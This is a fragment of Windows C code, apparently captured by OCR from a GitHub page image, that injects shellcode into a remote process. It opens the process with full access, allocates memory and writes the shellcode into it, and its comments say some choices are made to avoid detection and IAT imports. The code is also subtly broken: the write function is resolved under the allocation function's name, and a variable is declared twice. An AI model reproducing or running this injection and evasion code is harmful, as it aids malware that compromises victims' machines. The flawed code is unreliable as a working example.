 ```c
    if (tpid == 0) {
        tpid = GetProcessId(argv[1]);
    }

    #ifdef _DEBUG
    if (tpid == 0) {
        printf("Invalid PID or process name specified\n");
        return 1;
    }
    #endif

    // Obtain an handle to the remote process.
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tpid);

    #ifdef _DEBUG
    if (!hProc) {
        printf("Getting an handle on remote process using OpenProcess failed: %x\n", GetLastError());
        return 1;
    }
    #endif

    // Allocate the memory section for the shellcode as PAGE_READWRITE (to avoid more detected PAGE_EXECUTE_READWRITE).

    size_t szAllocated = szShellcode;

    /* Standard API. */
    LPVOID shellcodeBaseAddress = VirtualAllocEx(hProc, 0, szAllocated, (MEM_RESERVE | MEM_COMMIT), PAGE_READWRITE);

    /* ntdll direct call (to avoid an import in the IAT). */
    pNtAllocateVirtualMemory NtAllocateVirtualMemoryFunc = (pNtAllocateVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll"), "NtAllocateVirtualMemory");
    NtAllocateVirtualMemoryFunc(hProc, &shellcodeBaseAddress, 0, (PULONG)&szAllocated, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // Copy the shellcode in the newly allocated memory section.

    /* Standard API. */
    BOOL WriteProcessMemoryStatus = WriteProcessMemory(hProc, shellcodeBaseAddress, shellcode, sizeof(shellcode), NULL);
    #ifdef _DEBUG
    if (!WriteProcessMemoryStatus) {
        printf("Writing the shellcode memory to remote process using WriteProcessMemory failed: %x\n", GetLastError());
        return 1;
    }
    #endif

    /* ntdll direct call (to avoid an import in the IAT). */
    pNtWriteVirtualMemory NtWriteVirtualMemoryFunc = (pNtWriteVirtualMemory)GetProcAddress(GetModuleHandleA("ntdll"), "NtAllocateVirtualMemory");
    NTSTATUS  WriteProcessMemoryStatus = NtWriteVirtualMemoryFunc(hProc, shellcodeBaseAddress, shellcode, szShellcode, NULL);
    #ifdef _DEBUG
    if (WriteProcessMemoryStatus != 0) {
        printf("Writing the shellcode memory to remote process using WriteProcessMemory failed: %x\n", GetLastError());
        return 1;
    }
    #endif

```